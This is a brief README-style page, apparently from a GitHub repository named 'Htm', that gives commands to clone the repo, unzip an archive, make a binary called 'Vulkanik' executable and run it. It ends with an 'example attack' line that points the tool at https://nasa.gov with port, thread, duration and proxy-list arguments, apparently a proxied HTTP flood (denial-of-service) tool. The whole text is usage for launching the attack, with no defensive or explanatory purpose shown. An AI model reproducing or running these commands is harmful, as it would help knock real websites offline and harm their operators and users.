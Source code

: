 # Htm

git clone https://github.com/TaliGanda/Htm

cd Htm

unzip Methods.zip

chmod +x Vulkanik

./Vulkanik

example attack 

./Vulkanik GET https://nasa.gov 80 64 15 proxy.txt
